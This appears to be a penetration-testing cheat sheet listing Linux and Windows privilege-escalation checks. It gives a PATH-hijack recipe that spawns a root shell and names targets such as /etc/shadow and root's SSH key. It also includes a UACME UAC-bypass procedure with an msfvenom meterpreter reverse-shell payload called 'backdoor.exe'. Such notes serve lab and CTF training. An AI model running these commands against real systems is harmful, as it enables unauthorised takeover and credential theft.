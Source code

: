# Privilege Escalation
### Linux
- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)



### Windows 
- **UAC Bypass**
  - User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
  - UACME
    - Prerequisites:
      1 -  User must be a member of the Administrators group.
         - `net localgroup administrators`
      2. Full interactive shell with the victim (a common nc.exe shell is not enough).
         - You can use meterpreter
    - Procedure
      1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
         - `ps` to show process 
         - (ex. `migrate explorer.exe`)
      3. Upload Akagi (Akagi64.exe if x64)
      3. Create payload with msfvenom
         - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
      5. Use exploit/multi/handler to start a listener
      6. Akagi64.exe 23 <payload_full_path>
         - **NOTE FULL PATH**
      7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

# Resource
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges

